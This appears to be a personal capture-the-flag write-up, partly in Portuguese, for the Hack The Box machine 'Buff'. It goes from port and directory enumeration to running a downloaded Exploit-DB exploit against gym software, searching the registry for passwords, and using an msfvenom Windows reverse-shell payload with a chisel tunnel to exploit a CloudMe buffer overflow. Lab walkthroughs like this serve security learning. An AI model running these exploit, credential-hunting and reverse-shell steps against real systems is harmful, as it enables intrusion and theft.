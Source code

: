 Buff
========================

## Enumeration

    sudo nmap_enum buff.htb | tee nmap_output.txt
    
    sudo nmap -sU -p 53,161,111,137,139,500,2049 -Pn 10.10.10.198 | tee nmap_udp_output.txt

    gobuster dir -u http://10.10.10.198:8080 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -k -t 16 -o "tcp_port_protocol_jeeves_gobuster.txt"
    
    gobuster dir -u http://10.10.10.198:8080 -w /usr/share/seclists/Discovery/Web-Content/common.txt -x "txt,html,php,jsp" -k -t 16 -o "tcp_port_protocol_gobuster_common_list.txt"

    nikto -host http://10.10.10.198:8080 -T x 6 | tee nikto_output.txt

![qownnotes-media-RQDWGZ](../../../media/qownnotes-media-RQDWGZ.png)


    searchsploit gym
    
![qownnotes-media-NGQrEe](../../../media/qownnotes-media-NGQrEe.png)

## Exploitation

    wget https://www.exploit-db.com/download/48506 -O exploit.py
    python2 exploit.py http://10.10.10.198:8080/
    
![qownnotes-media-ArYemM](../../../media/qownnotes-media-ArYemM.png)

![qownnotes-media-iaWwDr](../../../media/qownnotes-media-iaWwDr.png)

## Privilege Escalation


Aqui o aprendizado foi interessante, porque a ideia foi encontrar um servico que tivesse uma vulnerabilidade que permite ao atacante realizar a escalacao de privilegio. Os passos abaixo nao funcionaram, mas veja mais abaixo:

    whoami /priv
    
    systeminfo
    
    	
    reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
    
    reg query HKLM /f password /t REG_SZ /s
    
Com esse checklist nao chegamos a lugar algum, porem navegando nos diretorios da maquina alvo encontramos um servico que estava rodando em modo administrastivo e que possui uma vulnerabilidade de BOF (buffer overflow)...

    cd c:\users\shaun\downloads
    
![qownnotes-media-vnobPo](../../../media/qownnotes-media-vnobPo.png)

![qownnotes-media-LfkpyM](../../../media/qownnotes-media-LfkpyM.png)


    searchsploit cloudme

![qownnotes-media-eHhEmn](../../../media/qownnotes-media-eHhEmn.png)

    msfvenom -p windows/shell_reverse_tcp -f python LHOST=10.10.14.8 LPORT=8084

Eu copiei o output do comando anterior e coloquei no primeiro exploit que estava relacionado no output do searchsploit:

    cat privesc_exploit.py

Fiz um redirecionamento de portas, pois identifiquei que esse servico estava escutando na porta local 127.0.0.1:8888

![qownnotes-media-xIrWQz](../../../media/qownnotes-media-xIrWQz.png)


    ./chisel.exe client 10.10.14.8:9999 R:5000:127.0.0.1:8888

Na maquina do atacante:

    ./chisel server -p 9999 --socks5 --reverse
    
    
Note que com esse exploit eu executei na interface local da maquina do atacante dado o redirrecionamento de porta do chisel:

    python privesc_exploit.py
    
    
    
    nc -nlvp 8084
 
 ![qownnotes-media-ShhjMz](../../../media/qownnotes-media-ShhjMz.png)
